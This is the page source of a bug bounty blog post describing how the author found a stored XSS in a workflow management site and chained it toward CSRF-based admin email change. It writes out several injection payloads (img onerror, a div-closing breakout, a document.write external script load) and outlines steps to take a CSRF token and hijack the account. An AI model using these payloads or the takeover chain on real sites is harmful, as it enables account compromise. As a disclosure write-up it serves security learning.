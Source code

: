 ```yaml
---
layout: default
title: Stored XSS to CSRF 
description: There's much more to XSS than just an alert !
date:   2020-05-21 
date_only: May 21, 2020
permalink: /stored-xss-to-csrf/
reading_time: 6 minutes
image: /assets/images/stored-xss-to-csrf/poc.png
---
```

<head>
  <link rel="stylesheet" href="/assets/css/main1.css">
  <!-- Latest compiled and minified CSS -->
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">

  <!-- jQuery library -->
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>

  <!-- Popper JS -->
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>

  <!-- Latest compiled JavaScript -->
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>

  <title>{{ page.title }}</title>
  <style>
    .content{
        font-size: 20px;
    }
   
  </style>
</head>

<section id="one" class="wrapper style1">
  <div class="inner">
        
    <article class="feature left" style="background-color: white; color: black;">
        <center style="padding-bottom: 20px;">
            <h2 style="padding: 20px; color: black;"><b>{{ page.title }}</b></h2>
            <div style="color:#0067a3">
              {{ page.date_only }}
              <br />
              ~{{ page.reading_time }}
            </div>
            
        </center>
        <div class="content" style="padding:10px;">
            <p>
                There's almost no limit what you can do with XSS, stored XSS in particular, in most of the situations. It allows javascript code execution in the victim's browser. XSS is not just about popping an alert box and stealing cookies is just one method, which is decreasing because many websites have HttpOnly flag on their cookies which protects them. In that case, if you don't know exploiting it other than stealing cookies, even though your submission would be accepted, you could be missing out on high impacts, like account takeover. 
                <br ><br >

                I received an invite for a private program a few days back. It was a workflow management websites, where you could assign your team members project, and upload files, and other stuff with different levels of users. I decided to hack on it, as these kind of different user privileges super excites me due to the large scope of privilege escalation.

                So, I started browsing the site understanding it's functionality. Now, there was a project section, where users could keep their project private, or add some of their team members in it. There was a functionality to add comments to the project, and the members added in the project had the option to add like to the comment. But knowing the project ID, I was able to add likes to a project, which I was not a part of, and had no visibility permissions. I reported this, and I received a response stating that the project ID is not predictable, and status was changed to "Won't fix" and it got me only 5 points☹️

                Next, there was a functionality to search other users, by their username. The endpoint was something like 
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_request.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                I have stripped out a lot of other things for simplicity. This would return a response containing all the users whose name starts with "micha" like michaelben, michael etc.
                So the response was something like
            </p>
            <center>
                <img src="/assets/images/stored-xss-to-csrf/api_response.png" alt="" height="30%" width="80%" />
            </center>
            <br ><br >
            <p>
                Again, the response contained a lot of other data, among which this was the most interesting ones. On a first glance, I thought this is leaking the address and mobile numbers of other team members, but later realised that they were actually visible on their profile.
                <br />
                Then the LIMIT parameter in the GET request caught my eyes, and I changed it to 1000. I got a hell lot of data regarding each of the team member. The response included the name of private documents uploaded by each user which was visible only to the user. Additionally, there were other details that the endpoint leaked such as private projects, and other information which were supposed to visible only to the particular user. 
                <br />
                On reporting this, I got a reply saying this was by design ! 😨
                Obviously, I couldn't do anything.
            </p>
            <br ><br >
            <p>
                I previously injected the XSS payload, <pre>"><img src onerror=alert(1)></pre> in one of the members name to test XSS, and it obviously didn't fire. I was just browsing using the admin account. I visited the member's profile with the payload. There was an option to deactivate the user. After deactivating, you receive a pop up saying "Deactivated {member name}". But when I deactivated this user, I got an invalid image symbol. I found this interesting. There are two possibilities which is mostly implemented in such a situation. One would be render the whole payload safely by some kind of filtering, and the other would be to completely remove the payload. But this removed only the tag , and so it loooked like <pre style="display: inline;">< img src=""></pre>. It was vulnerable to HTML and CSS injection, I could take down the whole page using <pre>< style>body{display: none}</style></pre>. But I was aiming XSS.

                I tried to bypass this, but I couldn't. I decided to look at the source code. I knew that it was parsing my HTML tags. The notification content was enclosed within a div tag. I immediately closed the div tag, and entered my payload. So the final payload was <pre>"></div><img src onerror=alert(document.domain)</pre>.

                Now when I deactivated the user with this payload, the payload fired. But I could not get the session cookies using this method, due to the HttpOnly flag. But I could get the CSRF token, using which I could change the admin email address. But again, since everything was against me, I was limited by the number of characters in the name where the payload must be injected. 

                So, I thought of referencing an external script to the page. I did <pre>document.getElementById("id").innerHTML = '< script src="http://localhost/alert.js"></script>'</pre>, where alert.js contained alert(document.domain), which would fire if the script was included. But it didn't. On more researching onto this, I found that scripts do not load in an already loaded page using the innerHTML method. Alternatively, using <pre>document.write("< script src='http://localhost/alert.js'></script>")</pre> could achieve it. I did that, and I got the alert. 
                Now just a simple POC.
            </p>
            <br ><br >
            <center>
                <img src="/assets/images/stored-xss-to-csrf/poc.png" alt="" height="30%" width="80%" />
            </center>
            <br /><br />
            <p>
                <ul>
                    <li>Get the cookie string</li>
                    <li>Extract only the value of CSRF-TOKEN from the string</li>
                    <li>Send the POST request to change the email address with the CSRF-TOKEN in the header</li>
                </ul>
                Just don't stop with an alert box if you find XSS. It has a lot more potential. 
                <br>
                See you again in the next blog post :)
            </p>
        </div>
        Share: <a class="icon fa-twitter" target="_blank"
      href="https://twitter.com/intent/tweet?text=Check out {{ page.title }} by micha3lb3n at https://micha3lb3n.github.io{{ page.permalink }}" data-size="large" url="https://micha3lb3n.github.io/">
    Tweet</a>
        <br /><br />
    </article>
